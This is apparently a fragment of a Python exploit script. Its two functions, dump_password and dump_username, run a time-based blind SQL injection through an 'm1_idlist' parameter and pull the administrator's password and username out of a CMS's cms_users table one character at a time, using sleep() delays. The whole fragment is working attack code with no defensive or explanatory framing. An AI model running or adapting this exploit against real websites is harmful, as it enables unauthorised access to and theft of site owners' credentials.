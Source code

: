     def dump_password():
        global flag
        global password
        global output
        ord_password = ""
        ord_password_temp = ""
        while flag:
            flag = False
            for i in range(0, len(dictionary)):
                temp_password = password + dictionary[i]
                ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
                beautify_print_try(temp_password)
                payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
                payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
                url = url_vuln + "&m1_idlist=" + payload
                start_time = time.time()
                r = session.get(url)
                elapsed_time = time.time() - start_time
                if elapsed_time >= TIME:
                    flag = True
                    break
            if flag:
                password = temp_password
                ord_password = ord_password_temp
        flag = True
        output += '\n[+] Password found: ' + password

    def dump_username():
        global flag
        global db_name
        global output
        ord_db_name = ""
        ord_db_name_temp = ""
        while flag:
            flag = False
            for i in range(0, len(dictionary)):
                temp_db_name = db_name + dictionary[i]
                ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
                beautify_print_try(temp_db_name)
                payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
                url = url_vuln + "&m1_idlist=" + payload
                start_time = time.time()
                r = session.get(url)
                elapsed_time = time.time() - start_time
                if elapsed_time >= TIME:
                    flag = True
                    break
            if flag:
                db_name = temp_db_name
                ord_db_name = ord_db_name_temp
        output += '\n[+] Username found: ' + db_name
        flag = True
